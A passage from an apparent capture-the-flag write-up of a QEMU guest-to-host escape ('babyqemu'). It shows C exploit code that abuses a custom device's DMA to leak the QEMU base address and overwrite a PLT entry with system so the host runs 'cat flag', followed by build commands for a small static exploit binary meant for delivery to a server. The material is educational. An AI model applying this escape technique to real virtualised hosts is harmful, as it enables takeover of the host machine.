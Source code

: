     // Sleep is requires so we don't race the DMA thread
    while ( get_dma_cmd() & 1 ) {
        sleep( 1 );
    }

    // Informational leak for qemu-system-x64 base load address
    va[0] -= 0x283dd0;
    printf( "QEMU ELF BASE: %p\n", *(void**)va );

    // Calc offset to qemu-system-x64 PLT entry for system
    va[0] += 0x1fdb18;

    // Overwrite hitb_enc with system in PLT
    // using cpu_physical_memory_rw(dma.src, &hitb_enc, is_write)
    // this way we are using the above function the reverse way copying from PA to VA
    set_dma_cnt( 8 );
    set_dma_src( phys_dst );
    set_dma_dst( 0x40000 + 0x1000 );
    set_dma_cmd( COPY_FROM_PA );

    // Sleep to wait the DMA thread
    while ( get_dma_cmd() & 1 ) {
        sleep( 1 );
    }

    // Copy the string for system in dma_buf[]
    // hitb_enc takes the dma_buf[] ptr
    puts( "Copying command" );
    char cmd[] = "cat flag";
    strcpy( (char*)va, cmd );
    set_dma_cnt( sizeof( cmd ) );
    set_dma_src( phys_dst );
    set_dma_dst( 0x40000 );
    set_dma_cmd( COPY_FROM_PA );

    // Wait for the DMA to finish again
    while ( get_dma_cmd() & 1 ) {
        sleep( 1 );
    }

    // call hitb_enc(hitb_buf)
    set_dma_src( 0x40000 );
    set_dma_cmd( COPY_FROM_PA | HITB_ENC );

    munmap( va, 0x1000 );
    munmap( mmio, mmio_size );
    return 0;
}
{% endhighlight %}

If we have to imagine a scenario where we have to deliver our exploit to the server and there's no compiler there, we would have to transfer a statically compiled version of our exploit. To reduce the size to a minimum we can use `musl-gcc` optimize for size and strip the symbols. We can reduce the size even further if we change the libc API to direct syscalls.

{% highlight bash %}
[babyqemu] gcc      -static -s -Os -o exploit exploit.c 
[babyqemu] musl-gcc -static -s -Os -o exploit-min exploit.c
[babyqemu] ls -la exploit*
-rwxr-xr-x 1 vagrant vagrant 778488 Nov 23 22:02 exploit
-rwxr-xr-x 1 vagrant vagrant  34304 Nov 23 22:02 exploit-min
-r--r--r-- 1 vagrant vagrant   3735 Nov 23 22:01 exploit.c
{% endhighlight %}
